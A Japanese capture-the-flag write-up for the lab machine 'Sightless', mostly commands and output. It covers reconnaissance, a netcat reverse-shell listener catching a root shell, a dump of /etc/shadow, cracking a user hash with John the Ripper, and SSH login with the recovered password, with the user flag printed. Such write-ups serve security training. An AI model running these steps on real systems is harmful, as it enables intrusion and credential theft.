





# Sightless


## 初期偵察
### nmap
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ nmap -sC -sV 10.10.11.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 20:52 JST
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 96.83% done; ETC: 20:52 (0:00:01 remaining)
Nmap scan report for 10.10.11.32
Host is up (0.39s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=4/2%Time=67ED2508%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20S
SF:erver\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20t
SF:ry\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x2
SF:0being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.03 seconds
```

### 名前解決
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.11.32 sightless.htb
```

### ディレクトリ探索
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ gobuster dir -u http://10.10.11.32 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.32
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.11.32/c27c68ae-efc8-450d-8631-e7a424f76b08 => 302 (Length: 154). To continue please exclude the status code or the length
```


### subdomain

http://sqlpad.sightless.htb/

echo "10.10.11.32 sqlpad.sightless.htb" | sudo tee -a /etc/hosts





右上の：押すとAbout SQLPadが表示される
SQLPad Version: 6.10.0で検索すると



### リバースシェル






```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ nc -lvnp 4444                                                             
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.32] 60210
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# id
id
uid=0(root) gid=0(root) groups=0(root)
```


## 初期侵入

### 探索

/etc/shadow
```
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

パスワードを解析するためにハッシュを抽出しておく
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ echo '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/' > hash.txt
```

### John the Ripper

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (?)     
1g 0:00:02:22 DONE (2025-04-02 21:26) 0.007019g/s 410.6p/s 410.6c/s 410.6C/s kruimel..ilovetyson
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

user: `michael`
pass: `insaneclownposse`
と分かったのでsshログインする

## SSH
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ ssh michael@10.10.11.32           
The authenticity of host '10.10.11.32 (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.32' (ED25519) to the list of known hosts.
Load key "/home/kali/.ssh/id_rsa": error in libcrypto
michael@10.10.11.32's password: 
Last login: Wed Apr  2 11:11:07 2025 from 127.0.0.1
michael@sightless:~$ whoami
michael
```

### user.txt
```
michael@sightless:~$ ls
lol.sh  ok.sh  user.txt
michael@sightless:~$ cat user.txt 
0d08e773e501ac7b92abf08395044e6c
```


```
michael@sightless:~$ netstat -lputn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:37725         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:41777         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:53225         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8081          0.0.0.0:*               LISTEN      22182/ssh           
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```

8080番ポートが空いているのでアクセスすると、Froxlorが起動している
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Sightless]
└─$ ssh -L 8080:127.0.0.1:8080 michael@10.10.11.32
Load key "/home/kali/.ssh/id_rsa": error in libcrypto
michael@10.10.11.32's password: 
Last login: Wed Apr  2 12:39:14 2025 from 127.0.0.1
```

